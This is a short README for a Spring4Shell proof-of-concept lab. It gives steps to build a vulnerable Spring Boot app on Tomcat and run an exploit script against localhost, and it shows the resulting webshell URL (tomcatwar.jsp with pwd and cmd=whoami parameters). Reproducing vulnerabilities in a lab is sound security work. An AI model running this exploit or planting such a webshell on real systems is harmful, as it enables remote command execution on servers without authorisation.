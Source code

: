 # Spring4Shell POC

Description of the vulnerability: https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html

Construction of the POC: https://github.com/BobTheShoplifter/Spring4Shell-POC

## Steps to Build/Run

Tested with JDK 11.0.14, Spring Boot 2.6.5, and Apache Tomcat 9.0.60

- Run `mvn clean package` to build the application
- Rename `demo-0.0.1-SNAPSHOT.war` to `spring-poc.war` and copy this .war file to Tomcat's webapps directory
- Run `python exp.py --url http://localhost:8080/spring-poc/greeting`
  - If successful, the message `漏洞存在，shell地址为:http://localhost:8080/spring-poc/tomcatwar.jsp?pwd=j&cmd=whoami` will be logged. Go to the url to see the result of the shell command